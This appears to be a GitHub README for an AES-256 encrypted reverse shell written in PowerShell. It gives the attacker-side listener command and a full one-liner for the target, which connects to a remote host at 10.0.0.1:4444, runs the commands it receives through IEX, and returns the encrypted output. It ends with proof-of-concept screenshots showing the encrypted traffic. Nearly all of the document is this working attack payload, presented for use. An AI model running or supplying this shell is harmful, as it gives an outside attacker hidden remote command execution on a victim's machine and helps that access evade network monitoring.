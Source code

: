 
### Reverse Encrypted Shell over TCP (AES 256-bit) using PowerShell SecureString, ###

- Attacker (C2-Server Listener):

PS> .\Server.ps1

- Target (Client):

PS> $Key=(226,183,97,6,17,176,21,164,211,64,197,229,220,92,207,182,192,132,103,202,131,244,142,31,82,141,162,94,187,176,23,192);$Client=New-Object System.Net.Sockets.TCPClient('10.0.0.1',4444);$Stream=$Client.GetStream();[byte[]]$Bytes=0..65535|%{0};while(($Read=$Stream.Read($Bytes, 0, $Bytes.Length)) -ne 0){;$Command=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($Bytes,0, $Read);$DeCode=$Command | ConvertTo-SecureString -Key $Key;$OutPut=(IEX([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($DeCode))) 2>&1 | Out-String);$EnCode=ConvertTo-SecureString $OutPut -AsPlainText -Force | ConvertFrom-SecureString -Key $Key;$SendByte=([text.encoding]::ASCII).GetBytes($EnCode);$Stream.Write($SendByte,0,$SendByte.Length);$Stream.Flush()};$Client.Close();Exit

### PoC: ###

- Reverse Encrypted Shell over TCP (AES 256-bit) PowerShell Execution (C2-Server Listener & Client):

![alt text](/PoC1.jpg)

- Reverse Encrypted Shell over TCP (AES 256-bit) Encrypted Traffic (WireShark):

![alt text](/PoC2.jpg)
